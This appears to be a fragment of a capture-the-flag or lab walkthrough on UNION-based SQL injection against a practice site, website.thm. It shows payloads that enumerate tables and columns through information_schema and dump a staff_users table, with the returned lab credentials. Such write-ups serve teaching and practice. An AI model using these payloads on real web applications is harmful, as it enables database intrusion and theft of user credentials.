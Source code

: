
https://website.thm/article?id=0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'

### 2

Article ID: 1

article,staff_users

0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'

### 2

Article ID: 1

id,username,password

0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users

### 2

Article ID: 1

admin:p4ssword  
martin:pa$$word  
jim:work123